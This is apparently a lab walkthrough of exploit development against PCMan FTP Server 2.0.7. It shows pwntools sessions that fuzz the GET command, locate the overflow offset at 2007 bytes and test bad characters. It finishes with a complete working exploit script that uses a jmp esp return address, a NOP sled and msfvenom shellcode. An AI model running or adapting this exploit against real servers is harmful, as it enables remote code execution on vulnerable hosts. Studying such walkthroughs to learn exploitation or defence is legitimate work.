






# PCMan FTP Server 2.0.7

```py
In [1]: r = remote('192.168.122.187', 21)
[x] Opening connection to 192.168.122.187 on port 21
[x] Opening connection to 192.168.122.187 on port 21: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 21: Done

In [2]: r.readline()
Out[2]: b"220 PCMan's FTP Server 2.0 Ready.\r\n"

In [3]: r.writeline('USER anonymous')
   ...: r.readline()
   ...: 
Out[3]: b'331 User name okay, need password.\r\n'

In [4]: r.writeline('PASS anonymous')
   ...: r.readline()
   ...: 
Out[4]: b'230 User logged in\r\n'

In [5]: r.writeline('GET ' + 'A'*3000)
```





```py
In [6]: r = remote('192.168.122.187', 21)
   ...: r.readline()
   ...: 
[x] Opening connection to 192.168.122.187 on port 21
[x] Opening connection to 192.168.122.187 on port 21: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 21: Done
Out[6]: b"220 PCMan's FTP Server 2.0 Ready.\r\n"

In [7]: r.writeline('USER anonymous')
   ...: r.readline()
   ...: 
Out[7]: b'331 User name okay, need password.\r\n'

In [8]: r.writeline('PASS anonymous')
   ...: r.readline()
   ...: 
Out[8]: b'230 User logged in\r\n'

In [9]: r.writeline(b'GET ' + cyclic(3000))
```





```py
In [1]: cyclic_find(0x61616375)
Out[1]: 2007
```

```py
In [10]: r = remote('192.168.122.187', 21)
    ...: r.readline()
    ...: 
[x] Opening connection to 192.168.122.187 on port 21
[x] Opening connection to 192.168.122.187 on port 21: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 21: Done
Out[10]: b"220 PCMan's FTP Server 2.0 Ready.\r\n"

In [11]: r.writeline('USER anonymous')
    ...: r.readline()
    ...: 
Out[11]: b'331 User name okay, need password.\r\n'

In [12]: r.writeline('PASS anonymous')
    ...: r.readline()
    ...: 
Out[12]: b'230 User logged in\r\n'

In [13]: r.writeline(b'GET ' + bytes(range(1, 256)))

In [14]: r.writeline(b'GET ' + b'A'*2007 + b'BBBB' + bytes(range(1, 256)))
```



```py
#!/usr/bin/env python3

from pwn import *


pad = b'A' * 2007

# 0x00006c28; jmp esp;
ret = p32(0x75860000 + 0x6c28)

nop = b'\x90' * 64

# msfvenom -p windows/exec -b '\x00\x0a\x0b\x27\x36\xce\xc1\x04\x14\x3a\x44\xe0\x42\xa9\x0d' -f py CMD=calc.exe
buf =  b""
buf += b"\x31\xc9\x83\xe9\xcf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += b"\x76\x0e\xaa\xea\x8e\xd0\x83\xee\xfc\xe2\xf4\x56\x02"
buf += b"\x0c\xd0\xaa\xea\xee\x59\x4f\xdb\x4e\xb4\x21\xba\xbe"
buf += b"\x5b\xf8\xe6\x05\x82\xbe\x61\xfc\xf8\xa5\x5d\xc4\xf6"
buf += b"\x9b\x15\x22\xec\xcb\x96\x8c\xfc\x8a\x2b\x41\xdd\xab"
buf += b"\x2d\x6c\x22\xf8\xbd\x05\x82\xba\x61\xc4\xec\x21\xa6"
buf += b"\x9f\xa8\x49\xa2\x8f\x01\xfb\x61\xd7\xf0\xab\x39\x05"
buf += b"\x99\xb2\x09\xb4\x99\x21\xde\x05\xd1\x7c\xdb\x71\x7c"
buf += b"\x6b\x25\x83\xd1\x6d\xd2\x6e\xa5\x5c\xe9\xf3\x28\x91"
buf += b"\x97\xaa\xa5\x4e\xb2\x05\x88\x8e\xeb\x5d\xb6\x21\xe6"
buf += b"\xc5\x5b\xf2\xf6\x8f\x03\x21\xee\x05\xd1\x7a\x63\xca"
buf += b"\xf4\x8e\xb1\xd5\xb1\xf3\xb0\xdf\x2f\x4a\xb5\xd1\x8a"
buf += b"\x21\xf8\x65\x5d\xf7\x80\x8f\x5d\x2f\x58\x8e\xd0\xaa"
buf += b"\xba\xe6\xe1\x21\x85\x09\x2f\x7f\x51\x7e\x65\x08\xbc"
buf += b"\xe6\x76\x3f\x57\x13\x2f\x7f\xd6\x88\xac\xa0\x6a\x75"
buf += b"\x30\xdf\xef\x35\x97\xb9\x98\xe1\xba\xaa\xb9\x71\x05"
buf += b"\xc9\x8b\xe2\xb3\x84\x8f\xf6\xb5\xaa\xea\x8e\xd0"

r = remote('192.168.122.187', 21)
r.readline()

r.writeline('USER anonymous')
r.readline()

r.writeline('PASS anonymous')
r.readline()

payload = pad + ret + nop + buf
r.writeline(b'GET ' + payload)
```

```
$ ./exploit.py 
[+] Opening connection to 192.168.122.187 on port 21: Done
```



